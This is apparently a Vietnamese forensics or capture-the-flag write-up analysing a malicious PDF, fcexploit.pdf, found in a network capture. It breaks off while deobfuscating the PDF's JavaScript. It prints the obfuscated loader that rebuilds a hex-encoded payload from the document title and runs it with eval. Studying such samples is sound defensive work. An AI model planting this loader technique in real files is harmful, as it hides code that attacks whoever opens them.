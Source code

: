 # Mấy câu hỏi trước chỉ là kiểm tra tcp, http stream xác định được ip hacker, file gì được tải về, url, .... Nên chỉ giải thích Q9

**The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?**

Check trên stream HTTP thấy có tải về một file pdf `fcexploit.pdf` và trong file pdf này có chứa payload JS độc hại, payload này tạo ra một shell code sau đó tải thêm một file exe vào vị trí nào đó trên máy của người dùng. Việc của ta là phải tìm ra vị trí đó từ việc phân tích file pdf, payload js, và shell code

Trước hết sử dụng `pdfid` có sẵn trên kali để kiểm tra obj, stream 

```
$ pdfid fcexploit.pdf
PDFiD 0.2.9 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

Có 5 stream, có thể tồn tại payload js trong đó. Sử dụng `PdfStreamDumper.exe` để kiểm tra

Biết được payload JS nằm ở stream thứ 5

```js
// Goc trong stream pdf
var SSS=null;var SS="ev";var $S="";$5="in";app.doc.syncAnnotScan();S$="ti";if(app.plugIns.length!=0){var $$=0;S$+="tl";$5+="fo";____SSS=app.doc.getAnnots({nPage:0});S$+="e";$S=this.info.title;}var S5="";if(app.plugIns.length>3){SS+="a";var arr=$S.split(/U_155bf62c9aU_7917ab39/);for(var $=1;$<arr.length;$++){S5+=String.fromCharCode("0x"+arr[$]);}SS+="l";}if(app.plugIns.length>=2){app[SS](S5);}

// deobf

var SS = "ev";
var $S = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
  S$ += "tl";
  $5 += "fo";
  ____SSS = app.doc.getAnnots({
    nPage: 0
  });
```
